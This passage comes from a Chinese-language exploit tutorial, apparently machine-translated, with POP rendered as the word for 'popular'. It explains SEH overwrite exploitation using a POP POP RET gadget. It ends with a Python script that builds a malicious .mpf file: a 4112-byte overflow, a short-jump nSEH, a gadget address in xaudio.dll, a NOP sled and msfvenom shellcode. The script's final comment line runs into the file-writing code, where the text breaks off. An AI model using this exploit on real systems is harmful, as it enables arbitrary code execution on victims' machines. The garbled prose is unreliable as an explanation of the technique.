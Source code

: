 起初，我不知道 T2 到底是什么，也不知道我们为什么需要它——所以让我们探索一下。

根据 dkalemis.wordpress.com 的说法，漏洞作者经常搜索这个序列，“因为这是他们漏洞的一个重要部分。”显然，“流行流行 RET 是为了创造 SEH 漏洞所需的指令序列。”值得注意的是，弹出值所在的寄存器对于攻击是否成功并不重要。最重要的是 ESP 在地址空间上移两次(8 个字节，在 32 位架构中每个位置是 4 个字节)，并且执行 RET 指令。因此，要么“流行 EAX，流行 EBX，RET，或流行 ECX，流行 ECX，RET，或流行 EDX，流行 EAX，RET，(等等)都可以。”

每次 RET 发生时，“ESP 指向的地址的内容被放入 EIP 并执行”(dkalemis)。因此，攻击者知道 ESP + 8 的地址将被放入 EIP 并执行。

但是为什么 ESP 在栈中下移两次很重要呢？为什么我们不能用外壳代码覆盖 SEH 处理程序指令，因为不管怎样，当异常出现时，控制权都会转移到那里？

因为有安全措施来防止这种情况。

根据 Dkalemis 的说法，SEH 是“一个记录的链表，每个记录对应一个异常处理程序。”记录的第一个字段是指向下一个记录的指针，第二个字段是异常处理程序本身的地址。

SEH 漏洞是基于这样一个事实，即攻击者可以“改变堆栈的一部分，并将值放在那里，从而在出现异常后误导 SEH 处理程序的执行”(dkalemis)。

所以，让我们从头开始看看一个流行的流行的 RET 小工具是如何工作的:

1.  引发缓冲区溢出后，执行跳转到第一个 SEH 处理程序指向的地址。
2.  缓冲区溢出将 SEH 处理程序的地址设置为 POP POP RET 序列的地址。
3.  因此，现在 EIP 将被设置为 ESP + 8 字节的值，这将是外壳代码开头的 jmp 指令。

现在回到教程。

我们最终的 python 脚本，包括 POP POP RET 小工具，将如下所示:

```
from struct import *

malicious_file = "evil.mpf"

# Log data, item 36
# Address=0BADF00D
# Message=    SEH record (nseh field) at 0x0018f948 overwritten with normal pattern : 0x31684630 (offset 4112), followed by 1712 bytes of cyclic data after the handler

seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH

# shellcode payload that is generated from msfvenom
shellcode = (
"\xdb\xc8\xba\x50\xf4\xd9\x51\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x31\x31\x56\x18\x83\xee\xfc\x03\x56\x44\x16\x2c\xad\x8c\x54"
"\xcf\x4e\x4c\x39\x59\xab\x7d\x79\x3d\xbf\x2d\x49\x35\xed\xc1"
"\x22\x1b\x06\x52\x46\xb4\x29\xd3\xed\xe2\x04\xe4\x5e\xd6\x07"
"\x66\x9d\x0b\xe8\x57\x6e\x5e\xe9\x90\x93\x93\xbb\x49\xdf\x06"
"\x2c\xfe\x95\x9a\xc7\x4c\x3b\x9b\x34\x04\x3a\x8a\xea\x1f\x65"
"\x0c\x0c\xcc\x1d\x05\x16\x11\x1b\xdf\xad\xe1\xd7\xde\x67\x38"
"\x17\x4c\x46\xf5\xea\x8c\x8e\x31\x15\xfb\xe6\x42\xa8\xfc\x3c"
"\x39\x76\x88\xa6\x99\xfd\x2a\x03\x18\xd1\xad\xc0\x16\x9e\xba"
"\x8f\x3a\x21\x6e\xa4\x46\xaa\x91\x6b\xcf\xe8\xb5\xaf\x94\xab"
"\xd4\xf6\x70\x1d\xe8\xe9\xdb\xc2\x4c\x61\xf1\x17\xfd\x28\x9f"
"\xe6\x73\x57\xed\xe9\x8b\x58\x41\x82\xba\xd3\x0e\xd5\x42\x36"
"\x6b\x29\x09\x1b\xdd\xa2\xd4\xc9\x5c\xaf\xe6\x27\xa2\xd6\x64"
"\xc2\x5a\x2d\x74\xa7\x5f\x69\x32\x5b\x2d\xe2\xd7\x5b\x82\x03"
"\xf2\x3f\x45\x90\x9e\x91\xe0\x10\x04\xee")

payload = "A" * 4112 # after calculating the buffer size that triggers this specific vulnerability
payload += nseh
payload += seh
payload += "\x90" * 100
payload += shellcode

# Log data, item 24
# Address=10014E98
# Message=  0x10014e98 : pop esi # pop ecx # ret  |  {PAGE_EXECUTE_READ} [xaudio.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v3.0.7.0 (c:\mp3-millennium\xaudio.dllpayload_execution = open(malicious_file, 'w+')

```